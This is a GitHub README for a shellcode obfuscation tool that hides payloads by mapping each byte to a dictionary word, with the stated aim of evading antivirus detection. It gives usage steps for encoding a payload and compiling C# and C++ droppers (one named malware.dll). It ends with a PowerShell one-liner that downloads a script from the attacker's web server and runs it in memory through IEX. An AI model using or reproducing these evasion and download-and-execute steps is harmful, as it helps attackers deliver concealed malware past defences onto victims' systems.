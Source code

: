 # Dictofuscation


# Code obfuscation with association dictionnary

The use of a shellcode encoder by dictionary association is in the same logic as obfuscation by IP address, by Mac address or UUID, but includes linguistic consistency. This project merges security and linguistic engineering for advanced concealment.


## Why strings

Some antiviruses may consider that the presence of English strings in the compiled data of a binary are considered as a historical indicator and reinforce its legitimacy against detection engines.
Dictionary association does not increase entropy and allows complex data encoding to be reversed.


## Execution

By default, the encoder takes a list of words from MIT, but you can also create your own.
It calculates each hexadecimal value from 0x00 to 0xFF and associates a word with it. Then, each byte of your shellcode is converted to hexadecimal and encoded with the corresponding word.
You can do the exact opposite in C# to get your shellcode.

<br>
<img src="https://github.com/ProcessusT/Dictofuscation/raw/main/.assets/demo.png" width="100%;"><br>


## COMPILATION
<br />

# For C# :
    > Generate your RAW shellcode file
    > Use the encoder to obfuscate it : python.exe .\encode_cs.py .\payload.bin
    > Compile your C# dropper : csc.exe /target:library /platform:x64 /out:.\malware.dll .\generated_code.cs

# For C++ :
    > Generate your RAW shellcode file
    > Use the encoder to obfuscate it : python.exe .\encode_cpp.py .\payload.bin
    > Create a new C++ Console project in Visual Studio
    > Copy and paste the generated_code.cs content and build your project

# For Powershell :
    > Generate your RAW shellcode file
    > Use the encoder to obfuscate it : python.exe .\encode_psh.py .\payload.bin
    > Put your generated_code.ps1 into a web server folder
    > Open a Powershell windows on the client side and make an in-memory execution :
        iwr http://yourwebserveripaddress/generated_code.ps1 | IEX
